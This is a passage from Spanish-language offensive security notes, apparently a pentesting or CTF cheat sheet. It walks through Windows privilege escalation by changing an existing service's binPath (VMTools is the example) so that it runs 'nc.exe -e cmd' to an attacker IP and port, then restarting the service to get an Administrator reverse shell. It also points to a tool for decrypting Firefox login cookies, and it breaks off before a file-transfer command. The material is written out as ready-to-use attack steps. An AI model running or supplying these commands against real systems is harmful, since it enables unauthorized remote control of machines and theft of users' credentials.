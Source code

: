 Ahora nos pondremos a la escucha...

```shell
nc -lvnp <PORT>
```

Pero si al crear eso nos pone `Access Denied` manipularemos un servicio que ya este creado de la siguiente manera...

Lo miraremos con `services` los servicios que estan abiertos y eligiendo uno de ellos le cambiaremos la configuracion de la siguiente manera...

```shell
sc.exe config <SERVICE_NAME> binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

> EJEMPLO

```shell
sc.exe config VMTools binPath="C:\<PATH>\nc.exe -e cmd <IP> <PORT>"
```

A lo mejor no te deja con todos los servicios pero es ir probando hasta que te deje cambiarle la configuracion alguno de ellos...

Si encontramos uno que te deje cambiar la configuracion, haremos lo siguiente...

```shell
sc.exe stop <SERVICE_NAME>
```

```shell
sc.exe stop VMTools
```

Y ahora estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

Ahora en la maquina `Windows` iniciamos el servicio para que se inicie la `Reverse Shell`...

```shell
sc.exe start <SERVICE_NAME>
```

```shell
sc.exe start VMTools
```

Y con esto ya habriamos conseguido una `Reverse Shell` como `Administrador` en la maquina `Windows`...

### Decrypt Firefox

Si en alguna vez se encuentra una carpeta en una maquina llamado algo como `.mozilla/firefox` y dentro de esas ruta puede haber una via potencial para desencriptar `coockies` de inicios de sesion...

URL = https://github.com/unode/firefox\_decrypt

Si nos encontramos una carpeta que contiene cosas de `firefox` nos las podemos pasar a neustro `host` utilizando el siguiente comando...
